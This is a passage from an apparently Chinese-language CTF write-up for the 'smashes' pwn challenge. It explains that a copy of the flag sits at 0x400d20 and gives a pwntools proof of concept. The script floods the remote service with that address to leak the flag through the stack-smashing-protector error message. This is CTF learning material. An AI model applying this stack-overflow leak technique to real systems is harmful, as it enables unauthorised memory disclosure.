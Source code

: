 ![img](/images/2017-09-23/canary_b17d7868f95d135b35908e74805b7282.png)

可见，其实在0x400d20处存在flag的备份。

因此，最终的poc为：

```
from pwn import *
context.log_level = 'debug'

cn = remote('pwn.jarvisoj.com', 9877)
#cn = process('pwn_smashes')
cn.recv()
cn.sendline(p64(0x0400d20)*200)
cn.recv()
cn.sendline()
cn.recv()
```